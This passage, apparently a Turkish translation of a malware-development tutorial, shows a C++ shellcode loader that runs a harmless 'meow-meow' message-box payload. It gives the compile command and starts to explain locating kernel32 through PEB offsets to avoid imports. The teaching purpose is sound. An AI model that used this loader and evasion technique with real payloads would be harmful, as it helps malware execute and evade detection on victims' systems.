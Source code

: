 ```cpp
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";


int main() {
  HMODULE hk32 = GetModuleHandle("kernel32.dll");
  pVirtualAlloc = GetProcAddress(hk32, "VirtualAlloc");
  PVOID lb = pVirtualAlloc(0, sizeof(my_payload),
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
  memcpy(lb, my_payload, sizeof(my_payload));
  HANDLE th = CreateThread(0, 0, 
  (PTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
  WaitForSingleObject(th, -1);
}
```

Bu kod, payload'u yürütmek için çok basit bir mantık içeriyor. Bu durumda, basitlik adına `meow-meow` mesaj kutusu payload'u kullanılıyor.     

Hadi bunu derleyelim:    

```bash
x86_64-w64-mingw32-g++ meow.cpp -o meow.exe \
-mconsole -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-Wint-to-pointer-cast -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![injection](./images/47/2022-04-04_18-51.png){width="80%"}    

ve çalıştıralım:    

![injection](./images/47/2022-04-05_01-46.png){width="80%"}    

`GetModuleHandle` İşlevini kullanarak `kernel32.dll`'in bellekteki yerini bulduk. Ancak bu işlemi `PEB` içinde kütüphane konumunu bularak da gerçekleştirmek mümkündür.      

### assembly tarzı :)  

Önceki [bölümlerin](https://cocomelonc.github.io/tutorial/2021/10/30/windows-shellcoding-2.html) birinde `TEB` ve `PEB` yapıları hakkında yazmıştım ve kernel32'yi assembly ile bulmuştum. Elde edilen sonuçlar şunlardı:     

1. `PEB` yapısının ofseti `0x030`'dur.    
2. `PEB` içindeki `LDR`'nin ofseti `0x00c`'dir.    
3. `InMemoryOrderModuleList`'in ofseti `0x014`'dür.    
4. 1 yüklü modül bizim `.exe`'mizdir.   
5. 2 yüklü modül `ntdll.dll`'dir.    
6. 3 yüklü modül `kernel32.dll`'dir.     
7. 4 yüklü modül `kernelbase.dll`'dir.    

Bugün `x64` mimarisini ele alacağım. Bu durumda ofsetler farklıdır:     
